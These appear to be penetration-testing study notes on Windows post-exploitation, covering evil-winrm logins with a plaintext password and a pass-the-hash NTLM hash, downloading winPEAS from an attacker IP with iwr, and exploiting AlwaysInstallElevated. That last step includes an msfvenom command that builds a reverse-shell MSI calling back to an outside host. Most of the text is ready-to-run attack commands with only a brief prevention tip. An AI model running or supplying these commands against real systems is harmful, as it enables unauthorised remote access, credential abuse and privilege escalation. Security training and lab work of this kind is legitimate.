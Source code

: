 ### [evil-winrm](https://github.com/Hackplayers/evil-winrm)
- creating a PowerShell remoting session via WinRM in a bind shell can cause unexpected behaviour
- This tool is used to connect to client with WinRM from our Kali machine (the target has WinRM port 5985 open)
- various built-in functions for penetration testing such as pass the hash, in-memory loading, and file upload/download

Connect to client:
`evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"`

Connect to client (using password hash):
`evil-winrm -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6`

### Prevention

Administrators can prevent PSReadline from recording commands by setting the `- HistorySaveStyle` option to `SaveNothing` with the `Set-PSReadlineOption` Cmdlet. Alternatively, they can clear the history file manually.

## Automated Enumeration

### [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
- automated tool to enumerate Windows target machine
- note that automated tools may be blocked by AV
- Alternatives: [Seatbelt](https://github.com/GhostPack/Seatbelt), [JAWS](https://github.com/411Hall/JAWS)

Location of winPEAS executable on Kali: `/usr/share/peass/winpeas/winPEASx64.exe`

1. Transfer winPEAS executable file to target machine:
   `iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe`
2. Run winPEAS program: (it takes a while)
   `.\winPEAS.exe`

Information of note from the output:
- Basic System Information 
	- OS version (could be wrong)
- PS default transcripts history 
	- transcript file location (could fail to detect)
- Users
	- list of all users and groups
- Looking for possible password files in users homes (could miss)
- Check `AlwaysInstallElevated` permissions
	- Exploitation: https://juggernaut-sec.com/alwaysinstallelevated/
		1. Check the architecture of the Windows OS (x64 or what):
		   `cmd.exe /c 'systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"'`
		2. Craft exploit:
		   `msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f msi -o evil.msi`
		3. Transfer the file to target machine and run it to get reverse shell

